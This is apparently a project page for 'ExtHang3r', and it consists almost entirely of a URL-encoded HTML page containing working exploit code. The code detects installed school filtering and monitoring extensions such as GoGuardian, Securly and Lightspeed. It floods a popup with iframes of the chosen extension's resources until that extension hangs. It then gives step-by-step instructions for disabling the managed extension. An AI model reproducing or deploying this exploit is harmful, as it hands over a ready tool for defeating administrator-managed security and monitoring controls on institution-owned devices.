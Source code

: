# here
Open this link if blocked,

data:text/html;charset=utf-8,<!DOCTYPE%20html>%0A<html%20lang%3D"en">%0A<head>%0A%20%20<meta%20charset%3D"UTF-8">%0A%20%20<meta%20name%3D"viewport"%20content%3D"width%3Ddevice-width%2C%20initial-scale%3D1.0">%0A%20%20<title>ExtHang3r<%2Ftitle>%0A%20%20<link%20rel%3D"shortcut%20icon"%20type%3D"image%2Fpng"%20href%3D"https%3A%2F%2Fraw.githubusercontent.com%2FBlobby-Boi%2FExtHang3r%2Fmain%2Ffavicon.png">%0A%20%20<link%20rel%3D"stylesheet"%20href%3D"https%3A%2F%2Ffonts.googleapis.com%2Fcss2%3Ffamily%3DVarela%2BRound%26display%3Dswap">%0A%20%20<style>%0A%20%20%20%20body%20%7B%0A%20%20%20%20%20%20font-family%3A%20'Varela%20Round'%2C%20sans-serif%3B%0A%20%20%20%20%20%20margin%3A%200%3B%0A%20%20%20%20%20%20padding%3A%200%3B%0A%20%20%20%20%20%20background-color%3A%20%23f8f9fa%3B%0A%20%20%20%20%20%20color%3A%20%23333%3B%0A%20%20%20%20%7D%0A%20%20%20%20header%20%7B%0A%20%20%20%20%20%20background-color%3A%20%23343a40%3B%0A%20%20%20%20%20%20color%3A%20%23fff%3B%0A%20%20%20%20%20%20padding%3A%2010px%2020px%3B%0A%20%20%20%20%20%20text-align%3A%20center%3B%0A%20%20%20%20%20%20display%3A%20flex%3B%0A%20%20%20%20%20%20align-items%3A%20center%3B%0A%20%20%20%20%20%20justify-content%3A%20center%3B%0A%20%20%20%20%20%20box-shadow%3A%200%202px%205px%20rgba(0%2C%200%2C%200%2C%200.1)%3B%0A%20%20%20%20%7D%0A%20%20%20%20.logo%20%7B%0A%20%20%20%20%20%20width%3A%2050px%3B%0A%20%20%20%20%20%20height%3A%2050px%3B%0A%20%20%20%20%20%20margin-right%3A%2010px%3B%0A%20%20%20%20%7D%0A%20%20%20%20.container%20%7B%0A%20%20%20%20%20%20max-width%3A%20800px%3B%0A%20%20%20%20%20%20margin%3A%20150px%20auto%200%20auto%3B%0A%20%20%20%20%20%20padding%3A%2020px%3B%0A%20%20%20%20%20%20text-align%3A%20center%3B%0A%20%20%20%20%20%20background%3A%20%23fff%3B%0A%20%20%20%20%20%20box-shadow%3A%200%204px%208px%20rgba(0%2C%200%2C%200%2C%200.1)%3B%0A%20%20%20%20%20%20border-radius%3A%208px%3B%0A%20%20%20%20%7D%0A%20%20%20%20select%20%7B%0A%20%20%20%20%20%20font-family%3A%20'Varela%20Round'%2C%20sans-serif%3B%0A%20%20%20%20%20%20margin-bottom%3A%2010px%3B%0A%20%20%20%20%20%20padding%3A%2010px%3B%0A%20%20%20%20%20%20font-size%3A%2016px%3B%0A%20%20%20%20%20%20border%3A%201px%20solid%20%23ced4da%3B%0A%20%20%20%20%20%20border-radius%3A%204px%3B%0A%20%20%20%20%20%20width%3A%20100%25%3B%0A%20%20%20%20%7D%0A%20%20%20%20button%20%7B%0A%20%20%20%20%20%20font-family%3A%20'Varela%20Round'%2C%20sans-serif%3B%0A%20%20%20%20%20%20background-color%3A%20%23007bff%3B%0A%20%20%20%20%20%20color%3A%20%23fff%3B%0A%20%20%20%20%20%20border%3A%20none%3B%0A%20%20%20%20%20%20padding%3A%2010px%2020px%3B%0A%20%20%20%20%20%20font-size%3A%2016px%3B%0A%20%20%20%20%20%20cursor%3A%20pointer%3B%0A%20%20%20%20%20%20border-radius%3A%205px%3B%0A%20%20%20%20%20%20margin-top%3A%2010px%3B%0A%20%20%20%20%20%20transition%3A%20background-color%200.3s%20ease%3B%0A%20%20%20%20%7D%0A%20%20%20%20button%3Ahover%20%7B%0A%20%20%20%20%20%20background-color%3A%20%230056b3%3B%0A%20%20%20%20%7D%0A%20%20%20%20.overlay%20%7B%0A%20%20%20%20%20%20position%3A%20fixed%3B%0A%20%20%20%20%20%20top%3A%200%3B%0A%20%20%20%20%20%20left%3A%200%3B%0A%20%20%20%20%20%20width%3A%20100%25%3B%0A%20%20%20%20%20%20height%3A%20100%25%3B%0A%20%20%20%20%20%20background-color%3A%20rgba(0%2C%200%2C%200%2C%200.7)%3B%0A%20%20%20%20%20%20display%3A%20none%3B%0A%20%20%20%20%20%20justify-content%3A%20center%3B%0A%20%20%20%20%20%20align-items%3A%20center%3B%0A%20%20%20%20%20%20z-index%3A%209999%3B%0A%20%20%20%20%20%20color%3A%20%23fff%3B%0A%20%20%20%20%20%20font-size%3A%2024px%3B%0A%20%20%20%20%20%20user-select%3A%20none%3B%0A%20%20%20%20%20%20flex-direction%3A%20column%3B%0A%20%20%20%20%7D%0A%20%20%20%20.spinner%20%7B%0A%20%20%20%20%20%20border%3A%206px%20solid%20rgba(255%2C%20255%2C%20255%2C%200.3)%3B%0A%20%20%20%20%20%20border-top%3A%206px%20solid%20%23fff%3B%0A%20%20%20%20%20%20border-radius%3A%2050%25%3B%0A%20%20%20%20%20%20width%3A%2040px%3B%0A%20%20%20%20%20%20height%3A%2040px%3B%0A%20%20%20%20%20%20animation%3A%20spin%201s%20linear%20infinite%3B%0A%20%20%20%20%20%20margin-bottom%3A%2020px%3B%0A%20%20%20%20%7D%0A%20%20%20%20%40keyframes%20spin%20%7B%0A%20%20%20%20%20%200%25%20%7B%20transform%3A%20rotate(0deg)%3B%20%7D%0A%20%20%20%20%20%20100%25%20%7B%20transform%3A%20rotate(360deg)%3B%20%7D%0A%20%20%20%20%7D%0A%20%20%20%20%23killExtensionText%20%7B%0A%20%20%20%20%20%20display%3A%20none%3B%0A%20%20%20%20%20%20margin-top%3A%2020px%3B%0A%20%20%20%20%20%20color%3A%20%23333%3B%0A%20%20%20%20%20%20font-size%3A%2018px%3B%0A%20%20%20%20%20%20text-align%3A%20center%3B%0A%20%20%20%20%20%20background%3A%20%23e9ecef%3B%0A%20%20%20%20%20%20padding%3A%2020px%3B%0A%20%20%20%20%20%20border-radius%3A%208px%3B%0A%20%20%20%20%20%20box-shadow%3A%200%204px%208px%20rgba(0%2C%200%2C%200%2C%200.1)%3B%0A%20%20%20%20%7D%0A%20%20%20%09%20%23killButton%20%7B%0A%09%20%20display%3A%20none%3B%0A%09%20%20background-color%3A%20%23dc3545%3B%0A%09%20%20color%3A%20%23fff%3B%0A%09%20%20border%3A%20none%3B%0A%09%20%20padding%3A%2010px%2020px%3B%0A%09%20%20font-size%3A%2016px%3B%0A%09%20%20cursor%3A%20pointer%3B%0A%09%20%20border-radius%3A%205px%3B%0A%20%09%20%20transition%3A%20background-color%200.3s%20ease%3B%0A%09%7D%0A%0A%09%23killButton%3Ahover%20%7B%0A%09%20%20background-color%3A%20%239c1c28%3B%0A%09%7D%0A%20%20%20%20footer%20%7B%0A%20%20%20%20%20%20background-color%3A%20%23343a40%3B%0A%20%20%20%20%20%20color%3A%20%23fff%3B%0A%20%20%20%20%20%20text-align%3A%20center%3B%0A%20%20%20%20%20%20padding%3A%2010px%3B%0A%20%20%20%20%20%20position%3A%20fixed%3B%0A%20%20%20%20%20%20bottom%3A%200%3B%0A%20%20%20%20%20%20width%3A%20100%25%3B%0A%20%20%20%20%7D%0A%20%20%20%20footer%20a%20%7B%0A%20%20%20%20%20%20color%3A%20%23007bff%3B%0A%20%20%20%20%20%20text-decoration%3A%20none%3B%0A%20%20%20%20%7D%0A%20%20%20%20footer%20a%3Ahover%20%7B%0A%20%20%20%20%20%20text-decoration%3A%20underline%3B%0A%20%20%20%20%7D%0A%20%20<%2Fstyle>%0A<%2Fhead>%0A<body>%0A%0A<header>%0A%20%20<img%20src%3D"https%3A%2F%2Fblobby-boi.github.io%2FBlobbypassXSS%2Ffavicon.png"%20alt%3D"Logo"%20class%3D"logo">%0A%20%20<h1>ExtHang3r<%2Fh1>%0A<%2Fheader>%0A%0A<div%20class%3D"container">%0A%20%20<p>ExtHang3r%20is%20an%20exploit%20that%20allows%20ChromeOS%20users%20to%20kill%20managed%20extensions%20after%20the%20LTMEAT%20patch.%20It%20remains%20unpatched%20in%20all%20new%20ChromeOS%20versions%20as%20of%20September%202024.<%2Fp>%0A%20%20<label%20for%3D"iframeSelect"%20id%3D"labelForIframeSelect">Select%20extension%3A<%2Flabel>%0A%20%20<select%20id%3D"iframeSelect">%0A%20%20<%2Fselect>%0A%20%20<button%20onclick%3D"warning()%3B"%20id%3D"hangButton">Hang%20Extension!<%2Fbutton>%0A%20%20<button%20id%3D"killButton"%20onclick%3D"openExtensionPopup()%3B">Kill%20Extension!<%2Fbutton>%0A<%2Fdiv>%0A%0A<div%20class%3D"overlay"%20id%3D"overlay">%0A%20%20<div%20class%3D"spinner"><%2Fdiv>%0A%20%20Hanging...%20(This%20will%20take%20about%201%20minute)%0A<%2Fdiv>%0A<div%20id%3D"killExtensionText"><%2Fdiv>%0A%0A<footer>%0A%20%20<p>Made%20by%20<a%20href%3D"https%3A%2F%2Fgithub.com%2FBlobby-Boi%2F">Blobby%20Boi<%2Fa><%2Fp>%0A<%2Ffooter>%0A%0A<script>%0A%20%20async%20function%20checkExtensionURL(url)%20%7B%0A%20%20%20%20try%20%7B%0A%20%20%20%20%20%20const%20response%20%3D%20await%20fetch(url)%3B%0A%20%20%20%20%20%20if%20(response.ok)%20%7B%0A%20%20%20%20%20%20%20%20return%20true%3B%0A%20%20%20%20%20%20%7D%20else%20%7B%0A%20%20%20%20%20%20%20%20return%20false%3B%0A%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%20catch%20(error)%20%7B%0A%20%20%20%20%20%20return%20false%3B%0A%20%20%20%20%7D%0A%20%20%7D%0A%0A%20%20async%20function%20populateSelectOptions()%20%7B%0A%20%20%20%20const%20selectElement%20%3D%20document.getElementById("iframeSelect")%3B%0A%20%20%20%20const%20extensions%20%3D%20%7B%0A%20%20%20%20%20%20"Securly"%3A%20"chrome-extension%3A%2F%2Fjoflmkccibkooplaeoinecjbmdebglab%2Ffonts%2FMetropolis.css"%2C%0A%20%20%20%20%20%20"Securly%20(old)"%3A%20"chrome-extension%3A%2F%2Fiheobagjkfklnlikgihanlhcddjoihkg%2Ffonts%2FMetropolis.css"%2C%0A%20%20%20%20%20%20"GoGuardian"%3A%20"chrome-extension%3A%2F%2Fhaldlgldplgnggkjaafhelgiaglafanh%2Fyoutube_injection.js"%2C%0A%20%20%20%20%20%20"LANSchool"%3A%20"chrome-extension%3A%2F%2Fbaleiojnjpgeojohhhfbichcodgljmnj%2Fblocked.html"%2C%0A%20%20%20%20%20%20"Linewize"%3A%20"chrome-extension%3A%2F%2Fddfbkhpmcdbciejenfcolaaiebnjcbfc%2Fbackground%2Fassets%2Fpages%2Fdefault-blocked.html"%2C%0A%20%20%20%20%20%20"Blocksi"%3A%20"chrome-extension%3A%2F%2Fghlpmldmjjhmdgmneoaibbegkjjbonbk%2Fpages%2FblockPage.html"%2C%0A%20%20%20%20%20%20"FortiGuard"%3A%20"chrome-extension%3A%2F%2Figbgpehnbmhgdgjbhkkpedommgmfbeao%2Fyoutube_injection.js"%2C%0A%20%20%20%20%20%20"Cisco%20Umbrella"%3A%20"chrome-extension%3A%2F%2Fjcdhmojfecjfmbdpchihbeilohgnbdci%2Fblocked.html"%2C%0A%20%20%20%20%20%20"ContentKeeper"%3A%20"chrome-extension%3A%2F%2Fjdogphakondfdmcanpapfahkdomaicfa%2Fimg%2Fckauth19x.png"%2C%0A%20%20%20%20%20%20"CK-Authenticator%20G3"%3A%20"chrome-extension%3A%2F%2Fodoanpnonilogofggaohhkdkdgbhdljp%2Fimg%2Fckauth19x.png"%2C%0A%20%20%20%20%20%20"Securly%20Classroom"%3A%20"chrome-extension%3A%2F%2Fjfbecfmiegcjddenjhlbhlikcbfmnafd%2Fnotfound.html"%2C%0A%20%20%20%20%20%20"Hapara"%3A%20"chrome-extension%3A%2F%2Fkbohafcopfpigkjdimdcdgenlhkmhbnc%2Fblocked.html"%2C%0A%20%20%20%20%20%20"Hapara%20(new%20ID)"%3A%20"chrome-extension%3A%2F%2Faceopacgaepdcelohobicpffbbejnfac%2Fblocked.html"%2C%0A%20%20%20%20%20%20"iboss"%3A%20"chrome-extension%3A%2F%2Fkmffehbidlalibfeklaefnckpidbodff%2Frestricted.html"%2C%0A%20%20%20%20%20%20"Lightspeed%20Filter%20Agent"%3A%20"chrome-extension%3A%2F%2Fadkcpkpghahmbopkjchobieckeoaoeem%2Ficon-128.png"%2C%0A%20%20%20%20%20%20"Lightspeed%20Classroom"%3A%20"chrome-extension%3A%2F%2Fkkbmdgjggcdajckdlbngdjonpchpaiea%2Fassets%2Ficon-classroom-128.png"%2C%0A%20%20%20%20%20%20"InterCLASS%20Filtering%20Service"%3A%20"chrome-extension%3A%2F%2Fjbddgjglgkkneonnineaohdhabjbgopi%2Fpages%2Fmessage-page.html"%2C%0A%20%20%20%20%20%20"InterSafe%20GatewayConnection%20Agent"%3A%20"chrome-extension%3A%2F%2Fecjoghccnjlodjlmkgmnbnkdcbnjgden%2Fresources%2Foptions.js"%2C%0A%20%20%20%20%20%20"LoiLo%20Web%20Filters"%3A%20"chrome-extension%3A%2F%2Fpabjlbjcgldndnpjnokjakbdofjgnfia%2Fimage%2Fallow_icon%2Fshield_green_128x128.png"%2C%0A%20%20%20%20%20%20"Gopher%20Buddy"%3A%20"chrome-extension%3A%2F%2Fcgbbbjmgdpnifijconhamggjehlamcif%2Fimages%2Fgopher-buddy_128x128_color.png"%2C%0A%20%20%20%20%20%20"LanSchool%20Web%20Helper"%3A%20"chrome-extension%3A%2F%2Fhonjcnefekfnompampcpmcdadibmjhlk%2Fblocked.html"%2C%0A%20%20%20%20%20%20"IMTLazarus"%3A%20"chrome-extension%3A%2F%2Fcgigopjakkeclhggchgnhmpmhghcbnaf%2Fmodels%2Fmodel.json"%2C%0A%20%20%20%20%20%20"Impero%20Backdrop"%3A%20"chrome-extension%3A%2F%2Fjjpmjccpemllnmgiaojaocgnakpmfgjg%2Flicenses.html"%2C%0A%20%20%20%20%20%20"Mobile%20Guardian"%3A%20"chrome-extension%3A%2F%2Ffgmafhdohjkdhfaacgbgclmfgkgokgmb%2Fblock.html"%0A%20%20%20%20%7D%3B%0A%20%20%20%20%0A%20%20%20%20let%20hasSupportedExtensions%20%3D%20false%3B%0A%0A%20%20%20%20for%20(const%20%5Bname%2C%20url%5D%20of%20Object.entries(extensions))%20%7B%0A%20%20%20%20%20%20if%20(await%20checkExtensionURL(url))%20%7B%0A%20%20%20%20%20%20%20%20const%20option%20%3D%20document.createElement("option")%3B%0A%20%20%20%20%20%20%20%20option.value%20%3D%20url%3B%0A%20%20%20%20%20%20%20%20option.textContent%20%3D%20name%3B%0A%20%20%20%20%20%20%20%20selectElement.appendChild(option)%3B%0A%20%20%20%20%20%20%20%20hasSupportedExtensions%20%3D%20true%3B%0A%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%20%20%20%20%0A%20%20%20%20if%20(!hasSupportedExtensions)%20%7B%0A%20%20%20%20%20%20const%20option%20%3D%20document.createElement("option")%3B%0A%20%20%20%20%20%20option.value%20%3D%20""%3B%0A%20%20%20%20%20%20option.textContent%20%3D%20"No%20supported%20extensions%20installed"%3B%0A%20%20%20%20%20%20selectElement.appendChild(option)%3B%0A%20%20%20%20%20%20document.getElementById("hangButton").style.display%20%3D%20"none"%3B%0A%20%20%20%20%7D%0A%20%20%7D%0A%0A%20%20populateSelectOptions()%3B%0A%20%20%0A%20%20function%20replaceIframes(container%2C%20iframeSrc)%20%7B%0A%20%20%20%20for%20(var%20i%20%3D%200%3B%20i%20<%201000%3B%20i%2B%2B)%20%7B%0A%20%20%20%20%20%20var%20iframe%20%3D%20document.createElement('iframe')%3B%0A%20%20%20%20%20%20iframe.src%20%3D%20iframeSrc%3B%0A%20%20%20%20%20%20iframe.style.width%20%3D%20'100%25'%3B%0A%20%20%20%20%20%20iframe.style.height%20%3D%20'100px'%3B%0A%20%20%20%20%20%20container.appendChild(iframe)%3B%0A%20%20%20%20%7D%0A%20%20%20%20setTimeout(function()%20%7B%0A%20%20%20%20%20%20while%20(container.firstChild)%20%7B%0A%20%20%20%20%20%20%20%20container.removeChild(container.firstChild)%3B%0A%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20replaceIframes(container%2C%20iframeSrc)%3B%0A%20%20%20%20%7D%2C%205)%3B%0A%20%20%7D%0A%0A%20%20function%20warning()%20%7B%0A%20%20%20%20var%20overlay%20%3D%20document.getElementById("overlay")%3B%0A%20%20%20%20overlay.style.display%20%3D%20"flex"%3B%0A%20%20%20%20var%20iframeSelect%20%3D%20document.getElementById("iframeSelect")%3B%0A%20%20%20%20var%20selectedOption%20%3D%20iframeSelect.options%5BiframeSelect.selectedIndex%5D.text%3B%0A%20%20%20%20var%20selectedSrc%20%3D%20iframeSelect.value%3B%0A%20%20%20%20var%20popup%20%3D%20window.open(""%2C%20"PopupWindow"%2C%20"width%3D100%2Cheight%3D100")%3B%0A%20%20%20%20var%20popupDocument%20%3D%20popup.document%3B%0A%20%20%20%20var%20popupBody%20%3D%20popupDocument.body%3B%0A%20%20%20%20var%20iframeContainer%20%3D%20popupDocument.createElement('div')%3B%0A%20%20%20%20iframeContainer.id%20%3D%20'iframeContainer'%3B%0A%20%20%20%20popupBody.appendChild(iframeContainer)%3B%0A%20%20%20%20replaceIframes(iframeContainer%2C%20selectedSrc)%3B%0A%20%20%20%20setTimeout(function()%20%7B%0A%20%20%20%20%20%20popup.close()%3B%0A%20%20%20%20%20%20var%20extensionId%20%3D%20selectedSrc.substring(selectedSrc.indexOf("%2F%2F")%20%2B%202%2C%20selectedSrc.indexOf("%2F"%2C%20selectedSrc.indexOf("%2F%2F")%20%2B%202))%3B%0A%20%20%20%20%20%20var%20extensionURL%20%3D%20"chrome-extension%3A%2F%2F"%20%2B%20extensionId%3B%0A%20%20%20%20%20%20var%20killExtensionText%20%3D%20document.getElementById("killExtensionText")%3B%0A%20%20%20%20%20%20killExtensionText.innerHTML%20%3D%20"Now%20that%20the%20extension%20<strong>"%20%2B%20selectedOption%20%2B%20"<%2Fstrong>%20has%20been%20hanged%2C%20press%20the%20button%20above."%3B%0A%20%20%20%20%20%20setTimeout(function()%20%7B%0A%20%20%20%20%20%20%20%20overlay.style.display%20%3D%20"none"%3B%0A%20%20%20%20%20%20%20%20killExtensionText.style.display%20%3D%20"block"%3B%0A%20%20%20%20%20%20%20%20document.getElementById("killButton").style.display%20%3D%20"inline-block"%3B%0A%20%20%20%20%20%20%20%20document.getElementById("hangButton").style.display%20%3D%20"none"%3B%0A%09document.getElementById("iframeSelect").style.display%20%3D%20"none"%3B%0A%09document.getElementById("labelForIframeSelect").style.display%20%3D%20"none"%3B%0A%20%20%20%20%20%20%20%20document.getElementById("killButton").setAttribute("data-url"%2C%20selectedSrc)%3B%0A%20%20%20%20%20%20%7D%2C%2010000)%3B%0A%20%20%20%20%7D%2C%205000)%3B%0A%20%20%7D%0A%0A%20%20function%20openExtensionPopup()%20%7B%0A%20%20%20%20var%20selectedSrc%20%3D%20document.getElementById("killButton").getAttribute("data-url")%3B%0A%20%20%20%20var%20extensionId%20%3D%20selectedSrc.substring(selectedSrc.indexOf("%2F%2F")%20%2B%202%2C%20selectedSrc.indexOf("%2F"%2C%20selectedSrc.indexOf("%2F%2F")%20%2B%202))%3B%0A%20%20%20%20var%20killExtensionText%20%3D%20document.getElementById("killExtensionText")%3B%0A%20%20%20%20document.getElementById("killButton").style.display%20%3D%20"none"%3B%0A%20%20%20%20killExtensionText.innerHTML%20%3D%20"Make%20sure%20to%20keep%20this%20tab%20open.%20Then%20in%20a%20new%20tab%20open%20<strong>chrome%3A%2F%2Fextensions%2F%3Fid%3D"%20%2B%20extensionId%20%2B%20"<%2Fstrong>%20Flip%20the%20switch%20called%20allow%20access%20to%20file%20URLs%20twice.%20The%20extension%20was%20successfully%20killed!%20Now%20you%20can%20close%20that%20tab%20as%20well%20as%20this%20one.%20If%20you%20want%20to%20restore%20the%20extension%2C%20flip%20the%20allow%20access%20to%20file%20URLs%20switch%20again."%3B%0A%20%20%20%20window.location.href%20%3D%20selectedSrc%3B%0A%20%20%7D%0A<%2Fscript>%0A<%2Fbody>%0A<%2Fhtml>
